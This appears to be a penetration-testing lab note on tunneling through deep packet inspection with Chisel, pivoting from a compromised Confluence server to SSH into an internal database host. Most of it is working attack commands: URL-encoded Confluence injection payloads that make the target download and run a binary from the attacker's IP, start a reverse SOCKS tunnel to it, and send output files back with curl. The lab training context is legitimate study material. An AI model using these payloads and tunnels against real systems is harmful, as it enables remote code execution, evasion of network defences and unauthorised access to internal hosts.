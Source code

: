 Bypassing Deep Packet Inspection by performing HTTP tunneling with Chisel

### HTTP Tunneling Fundies

#### Scenario
- Initial Access to CONFLUENCE01
- _Deep Packet Inspection_ (DPI) terminates all outbound traffic except HTTP
- All inbound ports blocked except 8090
- We have credentials for PGDATABASE01
_Problem_
- How to SSH to PGDATABASE01 through CONFLUENCE01
- How to tunnel to internal network and resemble outgoing HTTP connection from CONFLUENCE01
_Solution_
- HTTP Tunneling with Chisel

### HTTP Tunneling with Chisel
- Chisel Server on Kali (LPORT: 1080)
	- Binds SOCKS proxy port
	- Sends our ish through HTTP tunnel (ssh-encrypted)
- Chisel client on CONFLUENCE01
	- decapsulate our ish and push to where we want

Fortunately CONFLUENCE01 and Kali both _amd64_ Linux machines.
Can use the same #chisel binary 

Transfer chisel binary to CONFLUENCE01 through Kali's #apache2server

Copying the Chisel binary to the Apache2 server folder

```
kali@kali:~$ sudo cp $(which chisel) /var/www/html/
```

Starting Apache2

```
kali@kali:~$ sudo systemctl start apache2
```

Wget payload we use to download the Chisel binary to /tmp/chisel on CONFLUENCE01 and make it executable

```
wget 192.168.118.4/chisel -O /tmp/chisel && chmod +x /tmp/chisel
```

Wget payload executed within our cURL Confluence injection command

```
kali@kali:~$ curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20192.168.118.4/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/
```

Starting the Chisel server on port 8080

```hlt:1,4
kali@kali:~$ chisel server --port 8080 --reverse
2023/10/03 15:57:53 server: Reverse tunnelling enabled
2023/10/03 15:57:53 server: Fingerprint Pru+AFGOUxnEXyK1Z14RMqeiTaCdmX6j4zsa9S2Lx7c=
2023/10/03 15:57:53 server: Listening on http://0.0.0.0:8080
```

Starting tcpdump to listen on TCP/8080 through the tun0 interface

```
kali@kali:~$ sudo tcpdump -nvvvXi tun0 tcp port 8080
```

Start the Chisel client using the curl injection

- Kali machine (**192.168.118.4:8080**)

The Chisel client command we run from the web shell

```
/tmp/chisel client 192.168.118.4:8080 R:socks > /dev/null 2>&1 &
```

 Starting the Chisel client using the Confluence injection payload

```
kali@kali:~$ curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.118.4:8080%20R:socks%27%29.start%28%29%22%29%7D/
```

There is an error. Constructing the following payload to send through curl in order to see the error output:

```
/tmp/chisel client 192.168.118.4:8080 R:socks &> /tmp/output; curl --data @/tmp/output http://192.168.118.4:8080/
```

The error-collecting-and-sending injection payload

``` 
kali@kali:~$ curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.118.4:8080%20R:socks%20%26%3E%20/tmp/output%20%3B%20curl%20--data%20@/tmp/output%20http://192.168.118.4:8080/%27%29.start%28%29%22%29%7D/
```

Tcpdump is showing this error

```
        /tmp/chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.32' not found (required by /tmp/chisel)/tmp/chisel: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.34' not found (required by /tmp/chisel) [|http]
```

Chisel is trying to use glibc versions 2.32 and 2.34. CONFLUENCE01 doesn't have.

Troubleshooting... 

Checking Chisel version on Kali

```hlt:1,5
kali@kali:~$ chisel -h

  Usage: chisel [command] [--help]

  Version: 1.8.1-0kali2 (go1.20.7)
```

Go version 1.20 creates this incompatibility. 

Download different version of Chisel from GitHub that is compiled with Go 1.19

```
kali@kali:~$ wget https://github.com/jpillora/chisel/releases/download/v1.8.1/chisel_1.8.1_linux_amd64.gz
```

Unpack with #gunzip

```
kali@kali:~$ gunzip chisel_1.8.1_linux_amd64.gz
```

Copy to Apache web root 

```
kali@kali:~$ sudo cp ./chisel /var/www/html   
```

Re-run wget injection to force CONFLUENCE01 to download new Chisel binary 

```
kali@kali:~$ curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27wget%20192.168.118.4/chisel%20-O%20/tmp/chisel%20%26%26%20chmod%20%2Bx%20/tmp/chisel%27%29.start%28%29%22%29%7D/
```

Start the Chisel client using the Confluence injection payload, again

```
kali@kali:~$ curl http://192.168.50.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.118.4:8080%20R:socks%27%29.start%28%29%22%29%7D/
```

Viewing tcpdump session to see inbound chisel traffic

```hlt:1,6-13
kali@kali:~$ sudo tcpdump -nvvvXi tun0 tcp port 8080
tcpdump: listening on tun0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
...
18:13:53.687533 IP (tos 0x0, ttl 63, id 53760, offset 0, flags [DF], proto TCP (6), length 276)
    192.168.50.63.41424 > 192.168.118.4.8080: Flags [P.], cksum 0xce2b (correct), seq 1:225, ack 1, win 502, options [nop,nop,TS val 1290578437 ecr 143035602], length 224: HTTP, length: 224
        GET / HTTP/1.1
        Host: 192.168.118.4:8080
        User-Agent: Go-http-client/1.1
        Connection: Upgrade
        Sec-WebSocket-Key: L8FCtL3MW18gHd/ccRWOPQ==
        Sec-WebSocket-Protocol: chisel-v3
        Sec-WebSocket-Version: 13
        Upgrade: websocket
```

Chisel server also logs connecc

```
kali@kali:~$ chisel server --port 8080 --reverse
```

Ensure SOCKS proxy is open on port 1080

```hlt:1,4
kali@kali:~$ ss -ntplu
Netid     State      Recv-Q     Send-Q           Local Address:Port            Peer Address:Port     Process
udp       UNCONN     0          0                      0.0.0.0:34877                0.0.0.0:*
tcp       LISTEN     0          4096                 127.0.0.1:1080                 0.0.0.0:*         users:(("chisel",pid=501221,fd=8))
```

Use this to connect to PGDATABASE01.

Need to install and use #Ncat to connect to SOCKS proxy with _Proxy Command_

Installing Ncat with apt

```
kali@kali:~$ sudo apt install ncat
```

Successful SSH connection to PGDATABASE01 through our Chisel HTTP tunnel

```hlt:1,16
kali@kali:~$ ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' database_admin@10.4.50.215
The authenticity of host '10.4.50.215 (<no hostip for proxy command>)' can't be established.
ED25519 key fingerprint is SHA256:IGz427yqW3ALf9CKYWNmVctA/Z/emwMWWRG5qQP8JvQ.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.4.50.215' (ED25519) to the list of known hosts.
database_admin@10.4.50.215's password:
Welcome to Ubuntu 22.04 LTS (GNU/Linux 5.15.0-41-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 updates can be applied immediately.

Last login: Thu Jul 21 14:04:11 2022 from 192.168.97.19
database_admin@pgbackup1:~$
```

Tools:
[Chisel-Releases](https://github.com/jpillora/chisel/releases)
[Ncat](https://nmap.org/ncat/)
